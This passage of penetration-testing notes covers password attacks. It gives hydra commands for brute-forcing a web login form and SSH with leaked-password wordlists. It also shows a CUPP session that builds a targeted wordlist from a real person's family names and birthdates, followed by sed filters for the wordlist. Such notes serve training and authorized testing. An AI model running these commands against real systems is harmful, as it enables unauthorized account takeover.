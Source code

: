 You can retrieve the correct POST parameter by the browser on login.php page and using "Copy as cURL" (i.e, username=test&password=test) or using BurpSuite and use in a command like the following:
 ```
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

#### Brute Force SSH credentials
```
hydra -l root -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt 192.168.1.105 ssh
```
### CUPP
```
cupp -i

    ___________
       cupp.py!                 # Common
          \                     # User
           \   ,__,             # Passwords
            \  (oo)____         # Profiler
               (__)    )\
                  ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                                [ Mebus | https://github.com/Mebus/]


    [+] Insert the information about the victim to make a dictionary
    [+] If you don't know all the info, just hit enter when asked! ;)

    > First Name: William
    > Surname: Gates
    > Nickname: Bill
    > Birthdate (DDMMYYYY): 28101955

    > Partners) name: Melinda
    > Partners) nickname: Ann
    > Partners) birthdate (DDMMYYYY): 15081964

    > Child's name: Jennifer
    > Child's nickname: Jenn
    > Child's birthdate (DDMMYYYY): 26041996

    > Pet's name: Nila
    > Company name: Microsoft

    > Do you want to add some key words about the victim? Y/[N]: Phoebe,Rory
    > Do you want to add special chars at the end of words? Y/[N]: y
    > Do you want to add some random numbers at the end of words? Y/[N]:y
    > Leet mode? (i.e. leet = 1337) Y/[N]: y

    [+] Now making a dictionary...
    [+] Sorting list and removing duplicates...
    [+] Saving dictionary to william.txt, counting 43368 words.
    [+] Now load your pistolero with william.txt and shoot! Good luck!
```
We can remove any passwords that do not meet these conditions from our wordlist. Some tools would convert password policies to Hashcat or John rules, but hydra does not support rules for filtering passwords. So, we will simply use the following commands to do that for us:
```
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8`
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars`
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers`
```
### Custom Username Wordlist
```
```